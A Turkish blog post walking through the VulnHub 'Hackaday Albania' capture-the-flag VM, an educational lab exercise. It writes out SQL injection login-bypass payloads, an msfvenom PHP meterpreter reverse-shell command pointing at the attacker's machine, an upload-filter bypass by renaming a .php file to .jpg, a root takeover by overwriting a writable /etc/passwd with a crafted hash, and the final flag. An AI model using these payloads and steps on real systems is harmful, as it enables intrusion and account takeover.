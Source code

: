 ```yaml
---
layout: post
title: Hack A Day Albania Walktrough
date: '2017-03-03 16:10:00 +0300'
categories: blog
---
```


Selam,  
Hack A Day Albania CTF sanal makinasının tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.  
  
    
__Hackaday Albania CTF__

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır  

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)


__VM çözümü__  

  
```ifconfig ```  

komutu ile kendi IP adresimizi ve Subnet Mask'ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)   

```nmap 192.168.1.1/24```  

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** 
ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde;
22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/01.png)  


Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek
için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.  
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/02.png)  


```nmap -n -p 1-65535 -sV 192.168.1.10 --open```  
    
komutu ile tüm açık TCP portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda

```http://192.168.1.10:8080```
    
adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alacaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır. Bu satırları google translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış olduğunu anlıyoruz ve yazıda **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **[Owasp ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)** aracında tarattığımızda birşey gözümüze çarpıyor:

```robots.txt```   
    

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/03.png)  


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/04.png)  


Fakat ortalara doğru

```/unisxcudkqjydw ```

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/05.png)  


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

```http://192.168.1.10:8008/unisxcudkqjydw/vulnbank/```

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen SQL Injection
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/06.png)  


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle   

```' or '1' = '1```

olarak bilinen genel yöntemi deniyoruz ancak çok da sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


```Invalid Credentials...```


tabi ki pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize, biz de
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

```' or 'aucc' = 'aucc';#```

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
SQL sorgusu kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/07.png)   


fakat gözümüz hala doymamış olacak ki sistem hedefinden şaşmayıp sağda duran **Contact Support**
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php```  

ile **192.168.1.5** IP adresli Kali Linux makinemizin 4444 portuna yönlendiren
bir php zararlı yazılımı, üretip onu da raw formatında **aucc.php** adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/08.png)  


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
**aucc.php** yi yüklemeye çalışıyoruz  


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/09.png)  


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/10.png)  


Biz de, al sana jpg diyip **aucc.php** nin adını **aucc.jpg** olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/11.png)  


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticket'ın üzerine tıklayıp, sistem **aucc.jpg** dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

```/etc/group```

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmayacak şekilde

```/etc/passwd ```

doaysının izinlerine baktığımızda write iznini farkediyoruz. Tabi **meterpreter** üzerinden bunu editlemek biraz
sancılı olacağı için

```download /etc/passwd```

ile Kali'ye hedef makinenin passwd dosyasını indiriyoruz. Eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir **x** bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

```openssl passwd -1 -salt tuzlu aucc```

ile passwd formatında md5(-1) tipinde **tuzlu** ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

```$1$tuzlu$LewyIW83SjgyBrkI29SWh0```  

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![]({{ AUCyberClub.github.io }}/assets/img/hackaday/12.png)  


Root'un parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreter'dan

```upload passwd /etc/passwd```

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

```ssh taviso@192.168.1.10```

ile bağlantımızı kurup parola olarak 

```aucc```

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![]({{ AUCyberClub.github.io }}/assets/img/hackaday/13.png)  

```cat /root/flag.txt```

ile flag'i bastırıp flag'i gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.

```
FLAG:

    Urime,

    Tani nis raportin!

    (arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)
 ```  
    **d5ed38fdbf28bc4e58be142cf5a17cf5** 
    
    
      
 ---
 **[Hüseyin Erdem](https://twitter.com/rootofarch)**
